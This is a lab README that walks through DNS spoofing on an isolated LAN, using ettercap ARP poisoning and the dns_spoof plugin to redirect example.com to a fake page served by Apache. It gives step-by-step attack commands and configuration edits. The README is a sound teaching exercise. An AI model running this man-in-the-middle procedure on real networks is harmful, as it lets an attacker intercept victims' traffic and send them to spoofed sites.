 # DNS-Spoofing
This lab will help you understand the working of DNS and ARP. This lab demonstrates how DNS queries can be intercepted and redirected to fake(self created) webpage.  
## Setup and Tools:
 - Kali Linux
 - Victim machine
 - Self created Isolated LAN
 - Apache2
 - Ettercap

## Notes
 - Devices to be simulated should be connected to the same network(no internet access)
 - Note the ip-address of the devices being used


## Methodology:
### 1. Find the ip_address of the host and victim machine
```bash
ifconfig #(For Linux)
```
```bash
ipcofig #(For Windows)
```
### 2. IP-Forwarding:  
 ```bash
sudo sysctl -w net.ipv4.ip_forward=1
```
### 3.Add ip-addresses to the etter.dns file
  ```bash
 sudo mousepad /etc/ettercap/etter.dns 
  ``` 
##### Now inside the file, Add:
```bash
 example.com A <ip-address> # ip-address of the host machine
``` 
#### Edit the etter.conf file:
```bash
sudo mousepad /etc/ettercap/etter.conf
```
#### Now inside the file :
```bash
ec_uid = 0             
ec_gid = 0
```
### 4. Apache server
```bash
sudo service apache2 start
```

### 5. Ettercap
```bash
sudo ettercap -G #(enters into the graphical mode)
```
### Configure attack:
 - Steps:
   - Sniff → Unified Sniffing → Select your network interface
   - Hosts → Scan for hosts
   - Hosts → Host list → Add connected devices(Windows Machine) IPs to Target 1 
   - Mitm → ARP poisoning → Select “Sniff remote connections”
   - Plugins → Manage plugins → Double-click dns_spoof to activate
   
